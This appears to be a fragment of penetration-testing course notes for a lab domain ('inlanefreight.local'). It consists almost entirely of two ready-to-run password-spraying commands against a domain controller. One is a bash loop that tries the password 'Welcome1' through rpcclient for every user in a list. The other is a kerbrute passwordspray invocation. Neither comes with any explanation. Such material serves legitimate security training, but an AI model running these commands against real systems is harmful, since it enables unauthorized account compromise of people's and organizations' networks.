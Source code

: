 
**Bash one-liner
```shell-session
for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done
```

**Kerbrute
```shell-session
kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1
```

